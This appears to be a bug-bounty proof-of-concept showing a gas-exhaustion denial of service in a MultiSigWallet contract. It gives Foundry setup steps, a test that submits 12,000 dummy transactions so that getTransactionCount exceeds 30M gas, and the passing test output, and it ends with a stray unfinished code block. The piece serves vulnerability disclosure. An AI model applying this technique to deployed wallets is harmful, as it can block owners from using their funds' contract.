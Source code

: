 # Proof of concept
You will have to clone the immunefi poc repo and follow the steps below. I had to upgrade the MultiSigWallet code to match solc v0.8.19 compiler in order todo this PoC. Nevertheles, I also tested in Remix using the same compiler (v0.4.26, also using the original code) and the it start reverting at around 1300 txs. Once you run the test, you can see the gas used which is above 30M.

- git clone https://github.com/immunefi-team/forge-poc-templates.git
- forge init --template immunefi-team/forge-poc-templates --branch default
- Add the following code in src folder, which is the MultiSigWallet.sol contract but upgraded to compile with Solc 0.8.19.
- Replace test/PoCTest.sol with the following test.
- forge test -vv --match-test testAttack
```
Running 1 test for test/PoCTest.sol:PoCTest
[PASS] testAttack() (gas: 30451777)
Logs:

>>> Initial conditions: # transaction submitted --> 12000

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 407.08ms

Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "@immunefi/src/PoC.sol";
import "../src/MultiSigWallet.sol";

contract PoCTest is PoC {
    MultiSigWallet public walletContract;
    address constant ownerAccount1 = 0x2385D7aB31F5a470B1723675846cb074988531da;
    address constant ownerAccount2 = 0x0000000000000000000000000000000000000001;

    function setUp() public {
        deal(ownerAccount1, 1 ether);
        deal(ownerAccount2, 1 ether);

        // Deploy attack contract
        address[] memory accounts = new address[](2);
        accounts[0] = ownerAccount1;
        accounts[1] = ownerAccount2;
        walletContract = new MultiSigWallet(accounts, 2);
        
        // add dummy txs
        bytes memory localBytes = new bytes(1);
        for (uint k=0; k<12000; k++) {
            vm.prank(ownerAccount1);
            walletContract.submitTransaction(accounts[0], 0, localBytes);
        }

        uint txcount = walletContract.transactionCount();
        console.log("\n>>> Initial conditions: # transaction submitted -->", txcount);
    }

    function testAttack() public {
        walletContract.getTransactionCount(true, true);
    }
}
```
```
/**
```